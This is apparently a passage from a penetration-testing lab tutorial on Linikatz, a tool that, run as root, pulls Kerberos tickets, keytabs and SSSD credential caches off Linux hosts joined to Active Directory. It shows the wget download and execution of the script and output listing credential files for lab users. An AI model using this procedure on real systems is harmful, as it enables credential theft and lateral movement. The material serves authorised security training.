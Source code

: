 ## Linikatz

[Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory. In other words, Linikatz brings a similar principle to `Mimikatz` to UNIX environments.

Just like `Mimikatz`, to take advantage of Linikatz, we need to be root on the machine. This tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc. Once it extracts the credentials, it places them in a folder whose name starts with `linikatz.`. Inside this folder, you will find the credentials in the different available formats, including ccache and keytabs. These can be used, as appropriate, as explained above.

### **Linikatz Download and Execution**

```shell-session
$ wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
$ /opt/linikatz.sh
 _ _       _ _         _
| (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Hughski-Limited
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd/LVFS-CA.pem
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Foundation-Metadata
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd-metadata/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 1679 Mar  4  2020 /etc/pki/fwupd-metadata/LVFS-CA.pem
I: [sss-check] SSS AD configuration
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/timestamps_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  7 12:17 /var/lib/sss/db/config.ldb
-rw------- 1 root root 4154 Oct 10 19:48 /var/lib/sss/db/ccache_INLANEFREIGHT.HTB
-rw------- 1 root root 1609728 Oct 10 19:55 /var/lib/sss/db/cache_inlanefreight.htb.ldb
-rw------- 1 root root 1286144 Oct  4 16:26 /var/lib/sss/db/sssd.ldb
-rw-rw-r-- 1 root root 10406312 Oct 10 19:54 /var/lib/sss/mc/initgroups
-rw-rw-r-- 1 root root 6406312 Oct 10 19:55 /var/lib/sss/mc/group
-rw-rw-r-- 1 root root 8406312 Oct 10 19:53 /var/lib/sss/mc/passwd
-rw-r--r-- 1 root root 113 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/localauth_plugin
-rw-r--r-- 1 root root 40 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/krb5_libdefaults
-rw-r--r-- 1 root root 15 Oct  7 12:17 /var/lib/sss/pubconf/krb5.include.d/domain_realm_inlanefreight_htb
-rw-r--r-- 1 root root 12 Oct 10 19:55 /var/lib/sss/pubconf/kdcinfo.INLANEFREIGHT.HTB
-rw------- 1 root root 504 Oct  6 11:16 /etc/sssd/sssd.conf
I: [vintella-check] VAS AD configuration
I: [pbis-check] PBIS AD configuration
I: [samba-check] Samba configuration
-rw-r--r-- 1 root root 8942 Oct  4 16:25 /etc/samba/smb.conf
-rw-r--r-- 1 root root 8 Jul 18 12:52 /etc/samba/gdbcommands
I: [kerberos-check] Kerberos configuration
-rw-r--r-- 1 root root 2800 Oct  7 12:17 /etc/krb5.conf
-rw------- 1 root root 1348 Oct  4 16:26 /etc/krb5.keytab
-rw------- 1 julio@inlanefreight.htb domain users@inlanefreight.htb 1406 Oct 10 19:55 /tmp/krb5cc_647401106_HRJDux
-rw------- 1 julio@inlanefreight.htb domain users@inlanefreight.htb 1414 Oct 10 19:55 /tmp/krb5cc_647401106_R9a9hG
-rw------- 1 carlos@inlanefreight.htb domain users@inlanefreight.htb 3175 Oct 10 19:55 /tmp/krb5cc_647402606
```